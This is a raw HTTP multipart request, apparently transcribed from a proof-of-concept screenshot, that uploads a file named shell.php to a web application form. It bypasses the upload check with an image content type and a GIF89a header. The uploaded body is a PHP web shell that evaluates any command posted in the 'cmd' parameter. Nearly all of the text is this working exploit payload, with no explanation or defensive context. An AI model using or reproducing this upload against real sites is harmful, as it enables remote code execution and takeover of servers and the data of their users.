 ```
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: <change cookies>
Connection: close

------WebKitFormBoundary5jIWWI3hIJsIxXKJ
Content-Disposition: form-data; name="_token"

XabMXjldHui8xdksPHFAvs6FdhR8vPvdZyVMMnpx
------WebKitFormBoundary5jIWWI3hIJsIxXKJ
Content-Disposition: form-data; name="name"

mirage
------WebKitFormBoundary5jIWWI3hIJsIxXKJ
Content-Disposition: form-data; name="address"

aaaa
------WebKitFormBoundary5jIWWI3hIJsIxXKJ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/png

GIF89a
<?php eval($_POST["cmd"]);?>

------WebKitFormBoundary5jIWWI3hIJsIxXKJ
Content-Disposition: form-data; name="photo_max_size"

2
------WebKitFormBoundary5jIWWI3hIJsIxXKJ
Content-Disposition: form-data; name="photo_max_width"

4096
------WebKitFormBoundary5jIWWI3hIJsIxXKJ
Content-Disposition: form-data; name="photo_max_height"

4096
------WebKitFormBoundary5jIWWI3hIJsIxXKJ--

```
